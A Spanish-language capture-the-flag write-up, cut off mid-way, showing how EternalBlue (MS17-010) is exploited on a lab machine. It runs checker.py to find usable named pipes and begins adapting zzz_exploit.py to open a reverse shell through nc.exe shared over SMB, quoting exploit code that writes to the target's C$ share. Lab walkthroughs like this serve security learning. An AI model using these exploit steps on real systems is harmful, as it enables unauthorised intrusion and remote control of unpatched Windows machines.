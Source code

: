 
Efectivamente es vulnerable a **MS17-010**, es decir, es vulnerable al Eternal Blue.

## Explotación

Para su explotación haré uso del repositorio de Github [worawit/MS17-010: MS17-010](https://github.com/worawit/MS17-010). Haremos uso de dos scripts: `checker.py` y `zzz_exploit.py`. Aunque solo hagamos uso directo de estos dos scripts, recomiendo clonar el repositorio entero ya que estos hacen uso de algunos otros dentro de la misma carpeta como por ejemplo `mysmb.py`.

<br/>

Para explotar el Eternal Blue debemos de encontrar algo llamado los **named pipes**. Los pipes son una característica de los sistemas operativos para la comunicación y traspaso de información entre los procesos. El Eternal Blue los usa como vía de entrada para la explotación de la vulnerabilidad. Por ello, debemos saber por cuál named pipe debemos enviar el exploit.

<br/>

Para determinar los named pipes usaremos el `checker.py`:

```bash
python checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

<br/>

Todos aquellos named pipes, que tenga un `Ok` como respuesta son susceptibles al Eternal Blue. En este writeup se usará el named pipe de **browser**.

Una vez tenemos un named pipe, modificaremos el script `zzz_exploit.py` para que entable una *reverse shell* con nuestra máquina de atacante usando un recurso que compartiremos por *smb* que será `nc.exe`.

<br/>

Pasaremos de esto:

```python
def smb_pwn(conn, arch):
 973   │     smbConn = conn.get_smbconnection()
 974   │     
 975   │     print('creating file c:\\pwned.txt on the target')
 976   │     tid2 = smbConn.connectTree('C$')
 977   │     fid2 = smbConn.createFile(tid2, '/pwned.txt')
 978   │     smbConn.closeFile(tid2, fid2)
 979   │     smbConn.disconnectTree(tid2)
 980   │     
 981   │     #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
 982   │     #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
 983   │     # Note: there are many methods to get shell over SMB admin session
 984   │     # a simple method to get shell (but easily to be detected by AV) is
 985   │     # executing binary generated by "msfvenom -f exe-service ..."
```
